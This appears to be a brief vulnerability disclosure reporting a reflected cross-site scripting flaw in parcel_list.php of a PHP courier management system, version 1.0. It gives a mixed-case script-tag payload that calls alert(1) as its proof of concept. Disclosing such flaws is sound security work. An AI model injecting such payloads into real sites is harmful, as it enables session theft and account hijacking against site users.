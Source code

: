 * Exploit Title: best-courier-management-system - reflected xss

* Software Link: https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html

* Version: 1.0  

* Vulnerable file:parcel_list.php
![image](https://github.com/BigTiger2020/2023/blob/main/best-courier-management-system/xss-2.png)  


* POC:  
</TiTlE><ScRiPt>alert(1)</ScRiPt>

![image](https://github.com/BigTiger2020/2023/blob/main/best-courier-management-system/xss-2mpng.png)   
